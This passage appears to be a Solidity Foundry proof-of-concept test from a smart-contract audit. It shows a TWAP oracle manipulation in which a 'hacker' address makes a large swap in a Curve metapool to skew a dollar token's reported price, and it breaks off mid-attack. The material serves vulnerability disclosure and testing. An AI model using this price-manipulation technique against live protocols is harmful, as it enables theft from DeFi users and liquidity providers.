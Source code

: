 ```solidity
        collateralToken = new MockERC20("COLLATERAL", "CLT", 18);

        // Deal tokens used for initial liquidity in the pool
        deal(address(dollarToken), address(this), 1000 ether);
        deal(address(threeCRVToken), address(this), 1000 ether);

        // Deploy the MetaPool through Curve Factory
        metaPoolAddress = curveFactory.deploy_metapool(
            threeCurvePoolAddress,  // Address of the 3CRV pool
            "MetaPool Token",       // MetaPool Token Name
            "MPT",                  // MetaPool Token Symbol
            address(dollarToken),
            100,                    // A parameter
            0.003 * 1e10            // Fee (example: 0.3%)
        );

        // Create metapool instance
        metaPool = IMetaPool(metaPoolAddress);

        // Add liquidity to the pool
        dollarToken.approve(address(metaPool), 1000 ether);
        threeCRVToken.approve(address(metaPool), 1000 ether);

        // Add liquidity to meta pool
        uint256[2] memory amounts = [uint256(1000 ether), uint256(1000 ether)];
        metaPool.add_liquidity(amounts, 0);

        // Setup a pool
        vm.prank(owner);
        twapOracleDollar3PoolFacet.setPool(metaPoolAddress, address(threeCRVToken));
    }


    function testManipulateTWAP() public {
        address hacker = address(0x123);

        deal(address(threeCRVToken), hacker, 10000000 ether);
        deal(address(dollarToken), address(this), 100000000 ether);

        // Get price before the attack
        uint256 amount0Out = twapOracleDollar3PoolFacet.consult(address(dollarToken));
        uint256 amount1Out = twapOracleDollar3PoolFacet.consult(address(threeCRVToken));
        console.log("PRICE BEFORE ATTACK");
        console.log("Dollar Token Price :", amount0Out);
        console.log("3CRV LP Token Price:", amount1Out);
        console.log();

        // Somebody swaps 1 Dollar for 1 3CRV LP - can be any value - unnecessary step for the attack
        dollarToken.approve(address(metaPool), 1 ether);
        metaPool.exchange(0, 1, 1 ether, 0);
        // Price is updated
        twapOracleDollar3PoolFacet.update();
        // Increase the block timestamp
        vm.warp(block.timestamp + 13);

        // Hacker swaps a big amount of tokens and updates the price
        vm.startPrank(hacker);
        threeCRVToken.approve(address(metaPool), 10000 ether);
        metaPool.exchange(1, 0, 10000 ether, 0);
        twapOracleDollar3PoolFacet.update();
        vm.stopPrank();

```